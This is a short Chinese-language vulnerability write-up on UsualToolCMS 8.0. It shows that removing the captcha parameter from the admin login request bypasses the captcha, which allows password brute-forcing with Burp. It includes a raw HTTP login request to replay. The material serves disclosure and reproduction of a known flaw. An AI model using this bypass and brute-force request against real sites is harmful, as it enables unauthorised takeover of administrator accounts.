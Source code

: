 ```yaml
---
title: "UsualToolcms 8.0 绕过后台验证码爆破"
id: zhfly3213
---
```


# UsualToolcms 8.0 绕过后台验证码爆破

## 一、漏洞简介

可通过删除验证码参数，进行暴力破解

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

漏洞点:http://0-sec.org/cmsadmin/

后台登陆时默认需要输入验证码，但是当我把验证码的参数ucode删除时，登陆依然成功

### 1.默认情况下登陆数据包

![image](../img/250b1e5c16a8b1a1fcf0f7aa2c0de690.png)

![image](../img/a857dbb5b18178eef37dd959b4af47b3.png)

删除ucode参数和cookie后登陆，直接登陆成功

![image](../img/7936caa942376a10b97129709f537d25.png)

通过burp爆破后台密码

![image](../img/e443447827b378eff17bde253f8566a4.png)

![image](../img/b7bf1c45faf4a461fe71fef70e5492d8.png)

```
POST /UsualToolCMS/cmsadmin/a_login.php?do=login HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.235.242/UsualToolCMS/cmsadmin/a_login.php
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23 `uuser=admin&upass=admin` 
```